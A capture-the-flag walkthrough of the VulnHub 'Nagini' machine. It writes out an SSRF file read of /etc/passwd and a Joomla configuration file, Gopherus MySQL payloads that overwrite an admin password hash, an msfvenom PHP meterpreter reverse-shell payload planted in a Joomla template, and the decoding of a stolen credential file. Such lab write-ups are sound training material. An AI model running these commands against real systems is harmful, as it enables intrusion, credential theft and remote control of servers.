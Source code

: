 # Walkthrough VULNHUB --> HARRY POTTER: NAGINI

First step is to scan our Netwok to find the machine IP, in my case the host has ip 192.168.1.172.

We use nmap to scan the target machine with the command:

```bash
nmap -sC -sV -p- 192.168.1.174
```

![Alt text](./img/nmap.PNG?raw=true "NMAP Results")

I navigate to the web page to see what it is and to check if we find any visible vulnerability on that page.

![Alt text](./img/web_page_port80.PNG?raw=true "Port 80")

We run a scan on the port 80 with gobuster to search for interesting things.

```bash
gobuster dir --url http://192.168.1.174 -x .php,.js,.txt,.html --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50
```

![Alt text](./img/gobuster.PNG?raw=true "GOBUSTER SCAN")

We start browsing the /note.txt and we find as follow:

```
Hello developers!!


I will be using our new HTTP3 Server at https://quic.nagini.hogwarts for further communications.
All developers are requested to visit the server regularly for checking latest announcements.


Regards,
site_amdin
```

**WE NEED HTTP3!!!!!**

We also need to add **quic.nagini.hogwarts** in our **/etc/hosts**.

After spending some time on internet trying to figure out how to use this http3, I found this guide to enable **curl** with http3 support.

[https://github.com/curl/curl/blob/master/docs/HTTP3.md](https://github.com/curl/curl/blob/master/docs/HTTP3.md)

**NOW I built a new curl with http3 support**

Using curl we do a GET request on https://quic.nagini.hogwarts:

```bash
./curl --http3 https://quic.nagini.hogwarts
```

![Alt text](./img/http3.PNG?raw=true "CURL HTTP3")

We retrieve 2 important informations:
1 /internalResourceFeTcher.php
2 .bak

Let's see what is /internalResourceFeTcher.php

![Alt text](./img/internalFetcher.PNG?raw=true "/internalResourceFeTcher.php")

Let's try to search for a and see the result.

![Alt text](./img/a.PNG?raw=true "/internalResourceFeTcher.php search")

Noted something?

The search append in the url **?url=a**, so let's try to see if there is any **SSRF** vulnerability using in the url **file:///etc/passwd**

```bash
curl http://192.168.1.174/internalResourceFeTcher.php?url=file:///etc/passwd
```

![Alt text](./img/passwd.PNG?raw=true "/etc/passwd")

As you might have noticed, in the webserver there is Joomla, so now let's see if we can access to Jumla configuration file.

```bash
curl http://192.168.1.174/internalResourceFeTcher.php?url=file:///var/www/html/joomla/configuration.php
```

![Alt text](./img/config.PNG?raw=true "/var/www/html/joomla/configuration.php")

Searching on Google "SSRF exploit mysql",
![Alt text](./img/google.PNG?raw=true "Google search")
I found my answers in [Gopherus](https://github.com/tarunkant/Gopherus)

First step with Gopherus is to create a payload that give us the table list so using the command **use joomla; show tables;**.
![Alt text](./img/showTables.PNG?raw=true "SHOW Tables payload")

Appending the payload to curl, does not work.

So, I try to add the payload on the url in the browser. It seems that doesn't work either.

**At the end I pasted the payload in the search and submitted by clicking on Fetch**

If you don't see anything refresh the page, it can take few refresh before something is displayed.

![Alt text](./img/1try.PNG?raw=true "List Tables")

As you can see we can display the tables and we can see that there is a joomla_users table, which we are going to see next by creating another payload with Gopherus as done previously.

The command we are going to run is:

```sql
USE joomla; SELECT * FROM joomla_users
```

We could list the users and find the user **site_admin** and it's password.
![Alt text](./img/joomla_users.PNG?raw=true "Joomla Users")

After trying a lot of MD5 decoder, I decided to create another payload to change the password using **password1234**, so it's hased is **bdc87b9c894da5168059e00ebffb9077**.

Our command will be then:

```sql
use joomla; update joomla_users set password = 'bdc87b9c894da5168059e00ebffb9077' where username='site_admin';select * from joomla_users;
```

![Alt text](./img/newP.PNG?raw=true "New Password")

We are now able to login in the Joomla's administration portal, by going to http://192.168.1.174/joomla/administrator

![Alt text](./img/joomlaAdminLogin.PNG?raw=true "Admin Login")

We can insert **super_admin**/**password1234** and we're in!

![Alt text](./img/adminPage.PNG?raw=true "Admin Page")

We can now modify a template adding a payload that we are going to generate with **msfvenom**

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f raw -o test.php
```

![Alt text](./img/msfVenom.PNG?raw=true "MSFVENOM")

Let's start **msfconsole** using **explit/multi/handler** and setting up the payload as **php/meterpreter/reverse_tcp**

![Alt text](./img/msf.PNG?raw=true "MSFCONSOLE")

Next step will be to copy the content of test.php into our joomla template, so let's see what is inside our payload:

```bash
cat test.php
```

![Alt text](./img/payload.PNG?raw=true "Payload")

Now we move into the Admin console and we navigate till the Template editor.

![Alt text](./img/editTemplate.PNG?raw=true "Edit Template")

We are going now to paste our payload in line 9 and we save.

![Alt text](./img/editedTemplate.PNG?raw=true "Edited Template")

Once saved, just go to [http://quic.nagini.hogwarts/joomla/infex.php](http://quic.nagini.hogwarts/joomla/infex.php) and **BOOOOOOOOOM**.... We got a reverse shell in our meterpreter.

![Alt text](./img/reverse.PNG?raw=true "REVERSE SHELL")

At this point we can open the shell and start exploring:

```bash
meterpreter > shell
Process 3482 created.
Channel 0 created.
export TERM=xterm
python3  -c "import pty;pty.spawn('/bin/bash')"

```

I always like to see how many users there are in the system, so I navigate in the home and noted 2 users, **snape** and **hermoine**.

I went first on the snape home directory and find the .creds.txt file which contains some base64 information so i decoded it and find something I'll try next as password. Let's see the steps:

```bash
www-data@Nagini:/home/snape$ cd /home
cd /home
www-data@Nagini:/home$ ls
ls
hermoine  snape
www-data@Nagini:/home$ cd sna
cd snape/
www-data@Nagini:/home/snape$ ls -l
ls -l
total 0
www-data@Nagini:/home/snape$ ls -la
ls -la
total 32
drwxr-xr-x 4 snape snape 4096 Apr  4 17:09 .
drwxr-xr-x 4 root  root  4096 Apr  4 00:22 ..
-rw-r--r-- 1 snape snape  220 Apr  3 23:57 .bash_logout
-rw-r--r-- 1 snape snape 3526 Apr  3 23:57 .bashrc
-rw-r--r-- 1 snape snape   17 Apr  4 10:35 .creds.txt
drwx------ 3 snape snape 4096 Apr  4 16:38 .gnupg
-rw-r--r-- 1 snape snape  807 Apr  3 23:57 .profile
drwx------ 2 snape snape 4096 Apr  4 10:42 .ssh
www-data@Nagini:/home/snape$ cat .cre
cat .creds.txt
TG92ZUBsaWxseQ==
www-data@Nagini:/home/snape$ cat .creds.txt |base64 -d
cat .creds.txt |base64 -d
Love@lilly
```

We can now try to login as snape via ssh:

```bash
ssh snape@quic.nagini.hogwarts
```

![Alt text](./img/sanpe.PNG?raw=true "SNAPE")
